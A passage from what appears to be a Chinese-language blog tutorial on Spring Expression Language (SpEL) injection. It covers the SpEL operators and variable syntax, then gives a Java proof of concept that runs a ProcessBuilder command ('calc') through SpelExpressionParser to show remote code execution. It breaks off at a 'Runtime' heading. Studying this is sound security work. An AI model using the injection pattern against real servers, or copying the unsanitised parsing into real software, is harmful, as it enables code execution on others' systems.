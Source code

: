 | 运算符 | 符号 | 文本类型 |
|---|---|---|
| 等于 | == | eq |
| 小于 | &lt; | lt |
| 小于等于 | &lt;= | le |
| 大于 | &gt; | gt |
| 大于等于 | &gt;= | ge |

这些用的不多，记住就好了。

变量定义和引用
-------

在SpEL表达式中，变量定义通过EvaluationContext类的setVariable(variableName, value)函数来实现；在表达式中使用”#variableName”来引用；除了引用自定义变量，SpEL还允许引用根对象及当前上下文对象：

- `#this`：使用当前正在计算的上下文；
- `#root`：引用容器的root对象；
- `@something`：引用Bean

二、RCE飞雷神一段
==========

纯度宝典第一页  
飞雷神一段讲究的是直接RCE的艺术。那么也就对应常见的三种方法。

ProcessBuilder
--------------

```java
package com.example.vul;

import org.springframework.expression.Expression;
import org.springframework.expression.ExpressionParser;
import org.springframework.expression.spel.standard.SpelExpressionParser;

public class SpelVulTest {
    public static void main(String[] args) {
        String cmdStr = "new java.lang.ProcessBuilder(new String[]{\"calc\"}).start()";

        ExpressionParser parser = new SpelExpressionParser();//创建解析器
        Expression exp = parser.parseExpression(cmdStr);//解析表达式
        System.out.println( exp.getValue() );//弹出计算器
    }
}

```

写这一段代码喝了我2瓶八颗核桃，拉满了真的拉满了。我们Processbuilder真的是太有操作了  
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1691249526794-cb31e407-ca5e-4f63-8955-b913eec33db2.png#averageHue=%232b2c29&clientId=u39a47a36-8eef-4&from=paste&height=733&id=u30c3e25d&originHeight=916&originWidth=1887&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=2022751&status=done&style=none&taskId=udfb30ee3-b506-48ad-a55c-365d5fb277a&title=&width=1509.6)

Runtime
-------
